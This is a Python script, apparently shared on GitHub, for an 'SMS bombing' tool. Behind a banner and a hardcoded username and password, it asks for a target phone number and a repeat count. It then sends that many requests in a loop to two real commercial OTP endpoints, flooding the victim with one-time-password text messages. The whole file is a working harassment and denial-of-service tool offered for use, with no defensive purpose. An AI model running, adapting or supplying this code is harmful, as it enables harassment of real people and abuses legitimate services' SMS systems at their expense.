 # Ali-import os,sys,time,datetime
import requests
os.system('clear')
bl="\33[94m"
re="\033[91m"
li="\033[94m"
w="\33[97m"
y="\33[93m"
g="\033[1;32m"
cy="\033[96m"
end="\033[0m"



os.system('clear')
info="""     

    __  ______    ____  __  ________
   /  |/  /   |  / __ \/ / / / ____/
  / /|_/ / /| | / /_/ / / / / /_    
 / /  / / ___ |/ _, _/ /_/ / __/    
/_/  /_/_/  |_/_/ |_|\____/_/       
                                    

         
  \033[1;92m×××××××××××××××××\033[1;93m××××××××××××××\033[1;92m××××××××××××××××××
  \033[1;32m|     \033[1;33m[✓] CREATED BY\33[0;m   :  \033[1;33mASRAFUL ISLAM HASAN   \033[1;92m|
  \033[1;32m|     \033[1;32m[✓] FACEBOK      : \033[1;34m Hasa N                \033[1;92m|
  \033[1;32m|     \033[1;35m[✓] GITHUB       :  \033[1;35mKgHasan               \033[1;92m|
  \033[1;32m|     \033[1;36m[✓] TOOL STATUS  : \033[1;36m Bd Sms Bombing        \033[1;92m|
  \033[1;32m|     \033[1;35m[✓] TEAM         :  \033[1;35mKST                   \033[1;92m|
  \033[1;32m|     \033[1;36m[✓] TOOL VIRSION :  \033[1;36m0.0                   \033[1;92m|
  \033[1;92m×××××××××××××××××\033[1;92m×××××××××××××××\033[1;92m×××××××××××××××××
  \033[1;91m[\033[1;97m•\033[1;91m]\033[1;32mMY BIRTHDAY DATE \033[1;93m1-\033[1;92mJANUARY-\033[1;96m2022
  \033[1;91m[\033[1;97m•\033[1;91m]\033[1;32mMY BIRTHDAY \033[1;96mGIFT...
  \033[1;96m××××××××××××××××\033[1;96m×××××××××××××××\033[1;96m×××××××××××××××××
"""
os.system("xdg-open https://facebook.com/groups/551365756758487/")
os.system("lolcat login.txt")
print(y+info)

name='MARUF'
password='Ali'

usr=str(input(cy+"  \033[1;91m[\033[1;97m✒️\033[1;91m]\033[1;32mUsername => "))
print("  ")
pas=str(input(g+"  \033[1;91m[\033[1;97m✒️\033[1;91m]\033[1;32mPassword => "))

if name==usr and password==pas:
  print(g+"  \033[1;91m[\033[1;97m•\033[1;91m]\033[1;92m Login Successful Bro ✅")
  time.sleep(2)
  os.system('clear')
  
  pass 

else:
  print(re+"[×] Wrong Username or Password try agin ")
  os.system("xdg-open https://www.facebook.com/copy.link.erorr404"),
  sys.exit()

 

logo="""
 
    __  ______    ____  __  ________
   /  |/  /   |  / __ \/ / / / ____/
  / /|_/ / /| | / /_/ / / / / /_    
 / /  / / ___ |/ _, _/ /_/ / __/    
/_/  /_/_/  |_/_/ |_|\____/_/       
                                    

         
  \033[1;92m×××××××××××××××××\033[1;93m××××××××××××××\033[1;92m××××××××××××××××××
  \033[1;32m|     \033[1;33m[✓] CREATED BY\33[0;m   :  \033[1;33mASRAFUL ISLAM HASAN   \033[1;92m|
  \033[1;32m|     \033[1;32m[✓] FACEBOK      : \033[1;34m Hasa N                \033[1;92m|
  \033[1;32m|     \033[1;35m[✓] GITHUB       :  \033[1;35mKgHasan               \033[1;92m|
  \033[1;32m|     \033[1;36m[✓] TOOL STATUS  : \033[1;36m Bd Sms Bombing        \033[1;92m|
  \033[1;32m|     \033[1;35m[✓] TEAM         :  \033[1;35mKST                   \033[1;92m|
  \033[1;32m|     \033[1;36m[✓] TOOL VIRSION :  \033[1;36m0.0                   \033[1;92m|
  \033[1;92m×××××××××××××××××\033[1;92m×××××××××××××××\033[1;92m×××××××××××××××××
  \033[1;91m[\033[1;97m•\033[1;91m]\033[1;32mMY BIRTHDAY DATE \033[1;93m1-\033[1;92mJANUARY-\033[1;96m2022
  \033[1;91m[\033[1;97m•\033[1;91m]\033[1;32mMY BIRTHDAY \033[1;96mGIFT...
  \033[1;96m××××××××××××××××\033[1;96m×××××××××××××××\033[1;96m×××××××××××××××××
"""
os.system("xdg-open https://facebook.com/groups/551365756758487/")
print(cy+logo)

print(w+"  \033[1;91m[\033[1;97m1\033[1;91m]\033[1;92m START BOMBING  ")
print(g)
print(w+"  \033[1;91m[\033[1;97m2\033[1;91m]\033[1;91m EXIT")

inp=str(input (g+"=>\033[1;91m[\033[1;97m•\033[1;91m]\033[1;96m Enter Your Choice"+cy+" => "))
if inp=="2":
        print("\n          ♥️♥️Thanks For Using My Tools♥️♥️"),
        os.system("xdg-open https://github.com/KgHasan"),
        time.sleep(1),
        exit()
        
        

elif inp=='1':
  time.sleep(2)
  os.system('clear')
  print(cy+logo),
  
  number=str(input(g+"\n \033[1;91m[\033[1;97m•\033[1;91m]\033[1;92m Target Number"+cy+"(without"+w+" +88 ) => "))
  
  amount=int(input(g+" \033[1;91m[\033[1;97m•\033[1;91m]\033[1;92mEnter amount =>  "))
else:
  print (re+"\n • Invalid Choice• \n • Try again •"),
  exit()
  pass
  
api="https://www.shwapno.com/WebAPI/CRMActivation/Validate?Channel=W&otpCRMrequired=false&otpeCOMrequired=true&smssndcnt=8&otpBasedLogin=false&LoyaltyProvider=&MobileNO="+number+"&countryPhoneCode=%2B88"
url="https://ss.binge.buzz/otp/send/login"

data={'phone':number}
  
for i in range(amount):
  requests.get(api)
  requests.post(url,data=data)
  
  print(str(i+1)+" \033[1;91m[\033[1;97m💉\033[1;91m]\033[1;92mSend Successfully 🔥")
  
